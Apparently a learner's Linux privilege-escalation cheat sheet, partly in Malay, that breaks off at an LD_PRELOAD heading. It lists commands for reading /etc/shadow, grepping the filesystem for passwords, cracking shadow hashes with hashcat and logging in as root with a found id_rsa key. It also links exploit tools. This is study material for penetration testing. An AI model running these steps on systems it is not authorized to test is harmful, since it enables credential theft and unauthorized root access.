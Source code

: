 ## OS Information Gathering
- hostname
- uname -a 
- cat /proc/version
- cat /etc/issue
- lscpu
- ps aux (tgk service running)
- ps aux | grep root (tgk yg run under root)
- whoami
- id
- sudo -l
- cat /etc/passwd
- cat /etc/passwd | cut -d: -f 1
- cat /etc/shadow
- cat /etc/group
- history

## Network Information Gathering
- ifconfig
- ip a
- ip route
- arp -a
- ip neigh
- netstat -ano (check port, communication)

## Password Hunting
- grep —color=auto -rnw ‘/’ -ie “PASSWORD” —color=always 2>dev/null
- grep —color=auto -rnw ‘/’ -ie “PASSWORD=” —color=always 2>dev/null
- locate password | more
- locate passwd | more
- find / -name id_rsa 2>/dev/null
- find / -name authorized_keys  2> /dev/null


## Automated tools
- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [Linux Exploit Suggestor](https://github.com/mzet-/linux-exploit-suggester)
- [Linux Priv Checker](https://github.com/sleventyeleven/linuxprivchecker)

## Kernel Exploits

![alt text](image/image.png)

Tools: [Kernal Exploits](https://github.com/lucyoa/kernel-exploits)

- Get kernal version
  
![alt text](image/image-1.png)

- Search for exploit
  
![alt text](image/image-3.png)

- Run Exploit Suggestor
  
![alt text](image/image-4.png)
![alt text](image/image-5.png)
![alt text](image/image-6.png)

## Escalation via Stored Passwords
- history
- cat .bash_history
- [Looting for password](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/linux-privilege-escalation/#checklists)

## Escalation via Weak File Permissions

- weak file permission of shadow file (shadow file should not have read access)
  
![alt text](image-8.png)

- x is the placeholder for password (the password containe within the shadow file)

![alt text](image-9.png)

![alt text](image-10.png)

### Crack Password within shadow file

```bash
nano passwd
nano shadow
unshadow passwd shadow
nano unshadowed [save dalam file]
hashcat -m 1800 hash /usr/share/wordlist/common.txt --show 
```

- Result

![alt text](image-11.png)

![alt text](image-12.png)


- Reference for hash mode : [Hashing Types](https://hashcat.net/wiki/doku.php?id=example_hashes)

## Escalation via SSH Keys

```bash
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null (private key)
```

- id_rsa

![alt text](image-13.png)

```bash
nano id_rsa
chmod 600 id_rsa
ssh -i id_rsa root@<ip-address>
```

![alt text](image-14.png)

## Sudo Privilege Escalation

![alt text](image-15.png)

### Exploitation

- [GTFOBin](https://gtfobins.github.io/)
- [Linux PrivEsc Playground](https://tryhackme.com/room/privescplayground)

## Escalation via intended Functionality

- Example : wget (where user usually used to download file)
- If the exploitation not consist within the GTFOBin, the still will be other way to exploit, Google is the keyword.

Example: [wget](https://veteransec.com/2018/09/29/hack-the-box-sunday-walkthrough/)

## Escalation via LD_PRELOAD

![alt text](image-16.png)

What is LD_PRELOAD ?

